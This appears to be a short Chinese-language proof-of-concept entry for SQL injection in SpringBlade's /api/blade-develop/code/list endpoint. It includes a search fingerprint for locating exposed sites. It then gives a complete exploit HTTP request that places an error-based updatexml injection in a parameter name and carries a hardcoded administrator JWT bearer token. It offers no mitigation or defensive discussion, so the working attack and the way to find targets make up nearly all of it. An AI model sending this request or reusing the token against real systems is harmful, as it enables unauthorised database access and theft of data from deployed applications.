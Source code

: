 # SpringBlade code-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade code-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/kV2dyz_loYZ3KDlR/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-643561.png)

# 四、漏洞复现
```java
GET /api/blade-develop/code/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722875023704-551a90ac-0d8c-4c2f-b964-32442906adf0.png](./img/kV2dyz_loYZ3KDlR/1722875023704-551a90ac-0d8c-4c2f-b964-32442906adf0-601991.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rai84tybgfc4flks>